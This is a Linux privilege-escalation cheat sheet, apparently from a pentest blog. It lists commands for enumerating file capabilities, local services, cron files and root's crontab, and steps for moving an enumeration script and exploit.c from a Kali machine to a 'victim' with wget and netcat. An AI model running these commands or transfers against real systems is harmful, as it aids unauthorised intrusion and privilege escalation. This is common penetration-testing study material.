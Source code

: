 ``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); color: #333333; margin-top: 43px; overflow: auto; padding: 20px;"}
List the Capabilities of files  which has Root Privileges

getcap -r / 2>/dev/null 

Linux Capalilities - 40 Using Capabiliies 

#List all Capabilities 
#cap_sys_module is exploitable
capsh --print

Priv Esc using Sys_Module Capability in Docker
```

``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); color: #333333; margin-top: 43px; overflow: auto; padding: 20px;"}
Find Services Running Behind Firewall/Localhost 

netstat -ano

netstat -tulpn
```

``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); color: #333333; margin-top: 43px; overflow: auto; padding: 20px;"}
CRON Jobs 

crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root 
```

``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); color: #333333; font-size: 14px; margin-top: 43px; overflow: auto; padding: 20px;"}
find . -type f -ls         --> /Find files in all directories 
```

``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); color: #333333; font-size: 14px; margin-top: 43px; overflow: auto; padding: 20px;"}
python -m SimpleHTTPServer 8080  --> Start a communication server on your system

wget http://yourip/LinuxEnum.sh  --> Run this in target machine to get this file
```

``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); font-size: 14px; margin-top: 43px; overflow: auto; padding: 20px;"}
Send a File From Kali To Victim

nc -nlvp 9001 < exploit.c  --> Transfer files from Kali 

nc YourIpAddress 8001 > /tmp/exploit.c  --> Get the file On Target Machine
```
